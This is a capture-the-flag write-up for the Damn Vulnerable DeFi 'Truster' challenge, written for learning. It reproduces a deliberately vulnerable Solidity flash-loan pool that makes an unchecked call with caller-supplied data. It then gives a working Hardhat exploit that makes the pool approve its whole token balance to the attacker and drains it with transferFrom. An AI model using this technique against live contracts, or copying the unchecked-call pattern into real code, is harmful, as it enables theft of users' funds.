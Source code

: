 # Damn Vulnerable Defi: 3. Truster

> More and more lending pools are offering flash loans.
> In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
> Currently the pool has 1 million DVT tokens in balance. And you have nothing. But don't worry, you might be able to take them all from the pool. In a single transaction.

**Objective of CTF:**

- Steal all ETH from the pool.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
  using Address for address;

  IERC20 public immutable damnValuableToken;

  constructor(address tokenAddress) {
    damnValuableToken = IERC20(tokenAddress);
  }

  function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
  ) external nonReentrant {
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    damnValuableToken.transfer(borrower, borrowAmount);
    target.functionCall(data);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
  }
}
```

## The Attack

The lender is making a very trustful function call to a `target` with the given calldata `data`. The call-data can be anything, such as transferring the tokens of Truster to us. However, that would fail to pay back the flash loan within the same transaction,

Instead, we can make it approve all of its tokens for us, by giving the token address as `target` and `data` as an approval function call. This way, we have _access_ to all the tokens but have not withdrawn them yet. Once the `flashLoan` is done, we can take all the approved tokens.

## Proof of Concept

The Hardhat test below demonstrates this attack.

```ts
describe('Damn Vulnerable Defi 3: Truster', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  let token: DamnValuableToken;
  let pool: TrusterLenderPool;

  const TOKENS_IN_POOL = ethers.utils.parseEther('1000000');

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    token = await ethers.getContractFactory('DamnValuableToken', owner).then(f => f.deploy());
    pool = await ethers.getContractFactory('TrusterLenderPool', owner).then(f => f.deploy(token.address));

    await token.transfer(pool.address, TOKENS_IN_POOL);
    expect(await token.balanceOf(pool.address)).to.equal(TOKENS_IN_POOL); // pool has quite a lot of tokens
    expect(await token.balanceOf(attacker.address)).to.equal(0); // attacker has nothing
  });

  it('should drain tokens from the pool', async () => {
    // get balance
    const balance = await token.balanceOf(pool.address);

    // make the flash loan function do approve tokens for us
    await pool
      .connect(attacker)
      .flashLoan(
        0,
        attacker.address,
        token.address,
        token.interface.encodeFunctionData('approve', [attacker.address, balance])
      );
    expect(await token.allowance(pool.address, attacker.address)).to.eq(balance);

    await token.connect(attacker).transferFrom(pool.address, attacker.address, balance);
    // NOTE: this attack could be done in a single transaction using a middleman contract too
  });

  after(async () => {
    // attacker has taken all tokens from the pool
    expect(await token.balanceOf(attacker.address)).to.equal(TOKENS_IN_POOL);
    expect(await token.balanceOf(pool.address)).to.equal('0');
  });
});
```

